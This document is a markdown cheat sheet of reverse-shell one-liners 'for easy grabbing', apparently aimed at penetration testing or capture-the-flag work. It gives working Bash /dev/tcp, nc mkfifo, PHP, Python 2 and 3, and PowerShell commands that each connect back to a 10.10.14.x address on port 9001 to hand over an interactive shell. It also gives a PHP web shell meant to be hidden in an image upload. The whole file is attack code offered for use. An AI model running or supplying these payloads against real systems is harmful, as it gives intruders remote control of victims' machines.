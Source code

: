 # Reverse Shells

Commonly used rev shells for easy grabbing.

## Bash

```shell
bash -i >& /dev/tcp/10.10.14.1/9001 0>&1
```

## nc mkfifo

```shell
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.10 9001 >/tmp/f
```

## PHP

```shell
php -r '$sock=fsockopen("10.10.14.1",9001);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## PHP Payload In Image

```php
<?php system($_REQUEST['cmd']); ?>
```

## Python 2

```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## Python 3

```shell
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.1",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'
```

## PowerShell

```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.1',9001);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
